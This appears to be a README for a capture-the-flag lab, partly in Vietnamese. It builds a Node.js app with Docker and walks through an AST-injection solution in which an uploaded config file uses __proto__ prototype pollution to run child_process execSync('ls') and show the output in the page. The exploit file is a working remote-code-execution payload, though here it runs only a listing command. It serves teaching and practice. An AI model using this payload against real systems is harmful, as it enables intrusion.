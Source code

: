 # AST-injection-ctf
Demo AST injection in Nodejs app. <br/>
Docker and docker-compose required!

###### Build nodejs app image
`docker build -t demo-ctf .`<br/>
Ignore all the red line while build image :)))

###### Up docker-compose
`docker-compose up -d`

###### Run app
- Go to localhost:3000
- Reload until everything work correctly

## Try to RCE ^^

### Idea
Lướt qua các chức năng của trang web có thể rút ra được những điều như sau:
- Trang web được sử dụng cho các chức năng thống kê, vẽ biểu đồ
- Có 3 model chính là ransom, ransomware và victim
- Truy cập vào đường dẫn của từng model để kiểm tra chức năng, thấy được rằng 2 model ransomware và victim có chức năng xem chi tiết
- Kiểm tra chi tiết của 2 model, thấy rằng victim chỉ có thể download thông tin, còn ransomware có thể upload cấu hình mới lên để thực hiện update, có khả năng tải lên một file để khai thác lỗ hổng bảo mật

### Solutions
- Tạo file exploit với nội dung dưới đây và lưu lại
```
test = 'Hey universe'
      
[__proto__.someprop]
name = "somename"
value = "somevalue"
code = "process.mainModule.require('child_process').execSync('ls')"
```
- Vào trang chi tiết của 1 ransomware bất kỳ, upload file exploit vừa tạo lên
- Kiểm tra source của trang mới, thấy rằng có thuộc someprop ở các thẻ có giá trị là kết quả của câu lệnh 'ls' được inject ở trong file exloit
